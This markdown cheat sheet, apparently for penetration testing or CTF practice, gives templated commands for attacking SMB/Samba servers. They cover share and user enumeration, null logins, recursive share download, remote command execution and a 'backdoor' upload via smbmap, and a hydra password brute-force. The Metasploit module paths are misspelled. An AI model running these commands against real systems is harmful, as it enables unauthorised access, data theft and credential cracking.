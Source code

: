 # Server Message Block (SMB) | Samba

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

### Enumerate SMB Shares & Users:
```
nmap -p [PORT] --script=smb-enum-shares.nse,smb-enum-users.nse [TARGET-IP]
```
#### After Authenticating:
```
nmap -p [PORT] --script=smb-enum-shares.nse,smb-enum-users.nse --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```

### Enumerate SMB Shares & List Directories
```
nmap -p [PORT] --script=smb-enum-shares,smb-ls --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```

### List SMB Shares:
```
smbclient -L \\[TARGET-IP]
```

### Inspect Share:
```
smbclient //[TARGET-IP]/[SHARE-NAME]
```

### Log Into Share:
```
smbclient -U [USERNAME]//[TARGET-IP]/[SHARE-NAME]
```
```
smbclient //[TARGET-IP]/[SHARE-NAME]
```

### Recursively Download SMB Share:
(Submit username and password as nothing if the share is not secured)
```
smbget -R smb://[TARGET-IP]/[SHARE-NAME]
```

### Download Single File From Share After Logging In:
```
mget [FILE-NAME]
```

### Enumerate Specific Share to See Mounts: 
```
nmap -p [PORT] --script=nfs-ls,nfs-statfs,nfs-showmount [TARGET-IP]
```

### Check for Known Vulnerabilities within an SMB Share:
```
nmap -p [PORT] --script smb-vuln* [TARGET-IP]
```

### Check SMB Versions/Protocols/Dialects:
```
nmap -p 445 --script smb-protocols [TARGET-IP]
```

### Check SMB Security:
```
nmap -p 445 --script smb-security-mode [TARGET-IP]
```

### Show SMB Sessions:
```
nmap -p 445 --script smb-enum-sessions [TARGET-IP]
```

### Log into SMB Share:
```
nmap -p 445 --script smb-enum-sessions --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```

### SMB Server Stats:
```
nmap -p [PORT] --script=smb-server-stats --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```

### Enumerate Domains:
```
nmap -p [PORT] --script=smb-enum-domains --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```

### Enumerate Groups
```
nmap -p [PORT] --script=smb-enum-groups --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```

### Enumerate Services
```
nmap -p [PORT] --script=smb-enum-services --script-args smbsusername=[USERNAME],smbpassword=[PASSWORD] [TARGET-IP]
```
### SMB OS Discovery
```
nmap -p [PORT] --script smb-os-discovery [TARGET-IP]
```
### smbmap
```
smbmap -u [USERNAME] -p "[PASSWORD]" -d . -H [TARGET-IP]
```
```
smbmap -u guest -p "" -d . -H [TARGET-IP]
```
```
smbmap -u [USERNAME] -p "[PASSWORD]" -d . -H [TARGET-IP] -x [COMMAND-TO-RUN]
```
* -L to list drives
* -r to look at contents: -r '[DRIVE-LETTER]'$ | Example: -r 'c$'
* --upload '[FILE-PATH]' '[DESTINATION] | Example: --upload '/root/backdoor' 'C$\backdoor'
* --download '[FILE-PATH]' | Example: --download 'C$\flag.txt'

### Metasploit
```
msfconsole
```
```
use auxilary/scanner/smb/[SMB-VERSION]
```
Example:
```
use auxilary/scanner/smb/smb2
```
```
use auxilary/scanner/smb/smb_enumshares
```
```
use auxilary/scanner/smb/pipe-auditor
```
```
show options 
```
* set fields
```
exploit
```

### nmblookup
* Null login
```
smbclient -L [TARGET-IP] -N
```
```
smbclient //[TARGET-IP]/[SHARE] -N
```
* Authenticated login
```
smbclient -L [TARGET-IP] -U [USERNAME]
```
```
smbclient //[TARGET-IP]/[SHARE] -U [USERNAME]
```

### rpcclient
```
rpcclient -U "[USERNAME]" -P "[PASSWORD]" [TARGET-IP]
```
```
rpcclient -U "" -N [TARGET-IP]
```
* Command below is only for AFTER connection is made with rpcclient
Service info
```
srvinfo
```
* Show users
```
enumdomusers
```
```
lookupnames [USERNAME]
```
* Show groups
```
enumdomgroups
```

### enum4linux
* OS info
```
enum4linux -o [TARGET-IP]
```
* Show users
```
enum4linux -U [TARGET-IP]
```
* Show user SIDs
```
enum4linux -r -u "[USERNAME]" -p "[PASSWORD]" [TARGET-IP]
```
* Show groups
```
enum4linux -G [TARGET-IP]
```
* Show shares
```
enum4linux -S [TARGET-IP]
```
* See if printing is set up
```
enum4linux -i [TARGET-IP]
```

### hydra
```
hydra -l [USERNAME] -P [PATH-TO-WORDLIST] [TARGET-IP] smb
```
